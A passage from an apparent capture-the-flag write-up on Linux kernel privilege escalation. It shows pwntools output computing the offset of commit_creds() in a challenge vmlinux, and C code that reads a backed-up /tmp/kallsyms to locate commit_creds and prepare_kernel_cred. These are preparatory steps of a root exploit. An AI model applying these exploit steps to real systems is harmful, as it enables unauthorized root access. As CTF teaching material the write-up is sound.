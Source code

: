 **2. Get the address of the privilege escalation function**

​	The offsets in the `vmlinux` are fixed. So we could get the offsets in `vmlinux`. By using pwntools, we could get the base address `0xffffffff81000000` of the kernel and calculate the offset `0x9c8e0` of the function **commit_creds()**.

```shell
lzy@lzy-virtual-machine:~/give_to_player$ python
Python 2.7.17 (default, Mar 18 2022, 13:21:42) 
[GCC 7.5.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> vmlinux = ELF('./vmlinux')
[*] '/home/lzy/give_to_player/vmlinux'
    Arch:     amd64-64-little
    Version:  4.15.8
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0xffffffff81000000)
    RWX:      Has RWX segments
>>> hex(vmlinux.sym['commit_creds'] - 0xffffffff81000000)
'0x9c8e0'
```

​	As mentioned above, the file `init` sets `/proc/kallsyms` to be inaccessible to non-privileged users, but backs it up to `/tmp/kallsyms`. So we could get the address of the target function in `/tmp/kallsyms`.

```c
  39   │ int find_symbols()
  40   │ {
  41   │     char *ptr;
  42   │     char buf[0x40];
  43   │     FILE* fd = fopen("/tmp/kallsyms","r");
  44   │     if(!fd)
  45   │     {
  46   │         printf("[-] Open /tmp/kallsyms ERROR.\n");
  47   │         return 0;
  48   │     }
  49   │     while(fgets(buf,sizeof(buf),fd))
  50   │     {
  51   │         if(commit_creds_addr && prepare_kernel_cred_addr)
  52   │             return 1;
  53   │         if (strstr(buf, "commit_creds")) 
  54   │         {
  55   │             commit_creds_addr = strtoull(buf, &ptr, 16);
  56   │             printf("[+] Find: commit_creds: 0x%llx\n",commit_creds_addr);
  57   │         }
  58   │         if (strstr(buf, "prepare_kernel_cred")) 
  59   │         {
  60   │             prepare_kernel_cred_addr = strtoull(buf, &ptr, 16);
  61   │             printf("[+] Find: prepare_kernel_cred: 0x%llx\n",prepare_kernel_cred_addr);
  62   │         }
  63   │     }
  64   │     return 0;
  65   │ }
```
